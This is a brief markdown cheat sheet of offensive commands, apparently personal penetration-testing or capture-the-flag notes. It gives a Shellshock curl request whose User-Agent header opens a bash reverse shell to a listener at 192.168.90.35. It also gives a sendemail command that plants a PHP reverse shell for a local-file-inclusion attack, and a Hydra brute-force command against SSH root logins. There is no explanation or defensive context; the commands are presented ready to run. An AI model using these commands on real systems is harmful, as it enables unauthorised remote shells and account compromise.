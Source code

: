 # Exploit

## Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login

